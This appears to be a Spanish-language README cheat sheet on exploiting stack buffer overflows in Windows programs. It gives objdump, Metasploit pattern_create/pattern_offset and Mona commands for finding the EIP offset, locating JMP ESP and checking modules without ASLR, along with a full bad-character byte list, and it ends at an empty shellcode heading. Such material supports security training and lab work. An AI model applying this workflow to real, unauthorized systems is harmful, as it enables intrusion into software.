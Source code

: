 > # Buffer Overflow

# Desensamblar un archivo .exe 

```
objdump -d -Mintel goodpwd.exe > goodpwd_disassembled.txt
```

# Algunas Operaciones Inseguras
- strcpy
- vsprintf
- strcat
- printf
- gets / fgets
- memcpy
- scanf/ fscanf

# Calculado el offset
### Script dir
```
cd /usr/share/metasploit-framework/tools/exploit/
```
## Paso 1 
### Generar un payload con patter_create.rb, tan grande como el numero que especifiquemos
```
./pattern_create.rb -l 2000
```

## Paso 2
### Copiamos el payload generado y lo usamos en el input

## Paso 3 
### Utilizamos el espacio de memoria para calcular el offset por medio de patter_offset
```
./pattern_offset.rb -q 30684239 
```

# Uso de Mona
## Configuramos el directorio de trabajo para Mona
```
!mona config -set workingfolder C:\somefolder\%p
```
## Para crear un payload con Mona 
```
!mona pc 100
```
## Para calcular el Offset
```
!mona po 61413761
```
## Una vez que el EIP es sobreescrito podemos ejecutar:
```
!mona suggest
```
Mona nos pedirá que proporcionemos información sobre la carga útil y creará automáticamente un módulo Metasploit para explotar la aplicación.
## Para ver modulos que no tengan ASLR activado 
```
!mona noaslr
```
## Para verificar los modulos disponibles con el detalle de medidas de seguridad de cada uno
```
!mona modules
```
## Para saltar a un registro, especificamos el registro con -r
```
!mona jmp -r esp
```
## Tambien podemos especificar un modulo o mas de uno con -m
```
!mona jmp -r esp -m kernel
```
o de misma manera se puede usar para buscar entre todas las opciones del sistema con:
```
!mona find -s "\xff\xe4" -m kernel
```
donde `xFFxE4 = JMP ESP`

Una vez que se encuentra la direccion de la instruccion se puede continuar

# Identificar los BadChars
## Lista de todos los badchars
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

# Generar la shellcode

